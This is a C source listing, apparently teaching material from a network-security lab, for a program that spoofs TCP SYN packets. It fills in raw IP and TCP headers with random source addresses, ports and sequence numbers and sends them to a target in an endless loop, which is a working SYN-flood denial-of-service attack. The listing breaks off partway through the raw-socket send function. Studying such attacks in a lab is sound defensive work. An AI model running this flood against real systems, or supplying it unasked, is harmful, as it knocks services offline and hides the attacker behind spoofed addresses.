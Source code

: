 
    /******************************************************************
    Spoof a TCP SYN packet.
    *******************************************************************/
    int main() {
    char buffer[PACKET_LEN];
    struct ipheader *ip = (struct ipheader *) buffer;
    struct tcpheader *tcp = (struct tcpheader *) (buffer +
                                    sizeof(struct ipheader));

    srand(time(0)); // Initialize the seed for random # generation.
    while (1) {
        memset(buffer, 0, PACKET_LEN);
        /*********************************************************
            Step 1: Fill in the TCP header.
        ********************************************************/
        tcp->tcp_sport = rand(); // Use random source port
        tcp->tcp_dport = htons(DEST_PORT);
        tcp->tcp_seq   = rand(); // Use random sequence #
        tcp->tcp_offx2 = 0x50;
        tcp->tcp_flags = TH_SYN; // Enable the SYN bit
        tcp->tcp_win   = htons(20000);
        tcp->tcp_sum   = 0;

        /*********************************************************
            Step 2: Fill in the IP header.
        ********************************************************/
        ip->iph_ver = 4;   // Version (IPV4)
        ip->iph_ihl = 5;   // Header length
        ip->iph_ttl = 50;  // Time to live
        ip->iph_sourceip.s_addr = rand(); // Use a random IP address
        ip->iph_destip.s_addr = inet_addr(DEST_IP);
        ip->iph_protocol = IPPROTO_TCP; // The value is 6.
        ip->iph_len = htons(sizeof(struct ipheader) +
                            sizeof(struct tcpheader));

        // Calculate tcp checksum
        tcp->tcp_sum = calculate_tcp_checksum(ip);

        /*********************************************************
        Step 3: Finally, send the spoofed packet
        ********************************************************/
        send_raw_ip_packet(ip);
    }

    return 0;
    }


    /*************************************************************
    Given an IP packet, send it out using a raw socket.
    **************************************************************/
    void send_raw_ip_packet(struct ipheader* ip)
    {
        struct sockaddr_in dest_info;
        int enable = 1;
